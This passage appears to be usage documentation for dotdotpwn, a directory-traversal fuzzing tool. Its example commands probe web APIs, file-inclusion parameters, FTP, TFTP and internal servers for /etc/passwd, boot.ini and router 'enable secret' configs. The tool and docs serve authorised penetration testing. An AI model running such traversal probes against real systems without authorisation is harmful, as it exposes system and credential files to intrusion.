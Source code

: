 **API endpoint testing:**

```bash
# REST API
dotdotpwn --module http --host api.example.com --port 443 --ssl --method GET --file /etc/passwd

# GraphQL API
dotdotpwn --module http --host graphql.example.com --method POST --file /etc/hosts --pattern "localhost"
```

**File inclusion testing:**

```bash
# Local File Inclusion (LFI)
dotdotpwn --module http-url --url "http://vulnerable-app.com/page.php?include=TRAVERSAL" --pattern "root:"

# Remote File Inclusion (RFI) testing preparation
dotdotpwn --module stdout --depth 8 --os-type unix --file /etc/passwd > lfi_payloads.txt
```

### 🏢 Enterprise Environment Testing

**Internal network scanning:**

```bash
# Windows domain controller
dotdotpwn --module http --host dc.company.local --file boot.ini --pattern "Windows" --os-type windows

# Linux file server
dotdotpwn --module ftp --host fileserver.company.local --username anonymous --file /etc/passwd --pattern "root:"

# Network equipment (TFTP)
dotdotpwn --module tftp --host 192.168.1.1 --file startup-config --pattern "enable secret"
```

**SSL/TLS services:**

```bash
# HTTPS web applications
dotdotpwn --module http --host internal-app.company.com --ssl --port 8443 --os-detection

# FTPS file servers
dotdotpwn --module ftp --host secure-ftp.company.com --port 990 --ssl --username user --password pass
```

### 🔬 Research and Development

**Custom protocol development:**

```bash
# Create custom payload file
echo "CONNECT TRAVERSAL" > custom_protocol.txt
echo "AUTH user:pass" >> custom_protocol.txt
echo "RETRIEVE TRAVERSAL" >> custom_protocol.txt

# Test custom protocol
dotdotpwn --module payload --host test-server.lab.local --port 9999 --payload-file custom_protocol.txt
```
